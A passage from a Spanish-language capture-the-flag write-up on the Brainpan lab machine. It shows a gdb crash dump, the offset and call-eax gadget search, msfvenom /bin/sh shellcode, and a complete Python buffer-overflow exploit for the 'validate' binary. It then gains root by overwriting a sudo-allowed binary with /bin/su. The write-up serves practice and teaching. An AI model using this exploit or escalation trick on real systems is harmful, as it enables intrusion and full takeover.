EAX: 0xffffd5a8 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EBX: 0x41366441 ('Ad6A')
ECX: 0xffffd9a0 ("g2Ag3Ag4Ag5Ag")
EDX: 0xffffd663 ("g2Ag3Ag4Ag5Ag")
ESI: 0xf7fa5000 --> 0x1e4d6c
EDI: 0xf7fa5000 --> 0x1e4d6c
EBP: 0x64413764 ('d7Ad')
ESP: 0xffffd620 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
EIP: 0x39644138 ('8Ad9')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x39644138
[------------------------------------stack-------------------------------------]
0000| 0xffffd620 ("Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0004| 0xffffd624 ("e1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0008| 0xffffd628 ("2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0012| 0xffffd62c ("Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0016| 0xffffd630 ("e5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0020| 0xffffd634 ("6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0024| 0xffffd638 ("Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
0028| 0xffffd63c ("e9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x39644138 in ?? ()
gdb-peda$
Con pattern_offset de metasploit le pasamos la dirección y nos dice que el offset es 116 bytes
❯ pattern_offset -q 0x39644138
[*] Exact match at offset 116
Con nasm_shell de metasploit podemos ver el valor de call eax que es FF D0
❯ nasm_shell
nasm > call EAX
00000000 FFD0 call eax
A objdump le pasamos el binario y grepeamos por el valor que vimos antes
❯ objdump -D validate | grep "ff d0"
80484af: ff d0 call *%eax
804862b: ff d0 call *%eax
Nos quedamos con el primer valor pero como estamos el 32 bits le daremos la vuelta a la direccion
\x08\x04\x84\xaf --> \xaf\x84\x04\x08
Generamos un shellcode con msfvenom que nos ejecute /bin/sh con el encoder shikata_ga_nai
❯ msfvenom -p linux/x86/exec CMD=/bin/sh -a x86 -e x86/shikata_ga_nai -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Payload size: 70 bytes
Final size of python file: 416 bytes
shellcode = b""
shellcode += b"\xda\xcf\xba\x0b\x5d\x35\xa9\xd9\x74\x24\xf4"
shellcode += b"\x5d\x2b\xc9\xb1\x0b\x31\x55\x1a\x03\x55\x1a"
shellcode += b"\x83\xed\xfc\xe2\xfe\x37\x3e\xf1\x99\x9a\x26"
shellcode += b"\x69\xb4\x79\x2e\x8e\xae\x52\x43\x39\x2e\xc5"
shellcode += b"\x8c\xdb\x47\x7b\x5a\xf8\xc5\x6b\x54\xff\xe9"
shellcode += b"\x6b\x4a\x9d\x80\x05\xbb\x12\x3a\xda\x94\x87"
shellcode += b"\x33\x3b\xd7\xa8"
Finalmente nuestro exploit quedaria iniciando por el shellcode y enviandole A por lo que quede de espacio despues del shellcode para llegar al offset y finalmente le pasamos la direccion que hace call a eax para que vuelva y ejecute el shellcode, asi nos dará una sh
#!/usr/bin/python
offset = 116
shellcode = b""
shellcode += b"\xda\xcf\xba\x0b\x5d\x35\xa9\xd9\x74\x24\xf4"
shellcode += b"\x5d\x2b\xc9\xb1\x0b\x31\x55\x1a\x03\x55\x1a"
shellcode += b"\x83\xed\xfc\xe2\xfe\x37\x3e\xf1\x99\x9a\x26"
shellcode += b"\x69\xb4\x79\x2e\x8e\xae\x52\x43\x39\x2e\xc5"
shellcode += b"\x8c\xdb\x47\x7b\x5a\xf8\xc5\x6b\x54\xff\xe9"
shellcode += b"\x6b\x4a\x9d\x80\x05\xbb\x12\x3a\xda\x94\x87"
shellcode += b"\x33\x3b\xd7\xa8"
junk = b"A" * (offset - len(shellcode))
calleax = b"\xaf\x84\x04\x08"
print(shellcode + junk + calleax)
Ejecutamos validate como con el exploit como argumento, nos dara una sh como anansi
puck@brainpan:~$ validate $(python exploit.py)
$ whoami
anansi
$ hostname -I
192.168.100.62
El binario que teniamos en sudoers pertenece a anansi lo que significa que podemos alterarlo
$ ls -l /home/anansi/bin/anansi_util
-rwxr-xr-x 1 anansi anansi 31124 Jan 13 23:58 /home/anansi/bin/anansi_util
Lo que haremos sera copiar su con ese nombre, de manera que al ejecutarlo se ejecute 'sudo su'
$ cp /bin/su /home/anansi/bin/anansi_util
Como al ejecutar ese binario con sudo se ejecuta su, nos convertimos en root
$ sudo /home/anansi/bin/anansi_util
root@brainpan:~# id
uid=0(root) gid=0(root) groups=0(root)
root@brainpan:~# hostname -I
192.168.100.62
root@brainpan:~# cat /root/b.txt
_| _|
_|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|
_| _| _|_| _| _| _| _| _| _| _| _| _| _| _|
_| _| _| _| _| _| _| _| _| _| _| _| _| _|
_|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
_|
_|
http://www.techorganic.com
root@brainpan:~#